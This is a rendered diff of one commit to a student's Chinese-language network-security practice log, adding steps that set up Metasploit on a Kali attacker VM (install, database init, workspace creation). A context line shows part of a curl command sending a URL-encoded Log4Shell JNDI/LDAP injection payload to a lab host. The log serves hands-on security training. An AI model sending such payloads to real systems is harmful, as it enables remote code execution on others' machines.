

Before and after one commit to lihan3238/Network-Security-Comprehensive-Practice, a Markdown page: 0_lihan3238/个人开发日志.md, the part around the change printed below. Shown: that part at 95% size. Rendered like a GitHub page; pictures changed too: img/lihan3238_doc/metasploit_1.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/0_lihan3238/个人开发日志.md
+++ b/0_lihan3238/个人开发日志.md
@@ -494,7 +494,34 @@ curl "http://192.168.182.129:51360/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.1
 
 ![DMZ_1](../img/lihan3238_doc/DMZ_1.png)
 
-2.
+2. `metasploit` 环境配置
+
+- kaliattacker
+
+```bash
+# metasploit 基础配置
+# 更新 metasploit
+sudo apt install -y metasploit-framework
+
+# 初始化 metasploit 本地工作数据库
+sudo msfdb init
+
+# 启动 msfconsole
+msfconsole
+
+# 确认已连接 pgsql
+db_status
+
+# 建立工作区
+workspace -a demo_lihan
+
+# 查看工作区
+workspace -l
+```
+
+![metasploit_1](../img/lihan3238_doc/metasploit_1.png)
+
+####
 
 ### 问题
 
````
Also changed, not shown: other parts of 0_lihan3238/个人开发日志.md (+3 -3 lines), docs/GitHub小组合作说明文档.md (+7 -0 lines).
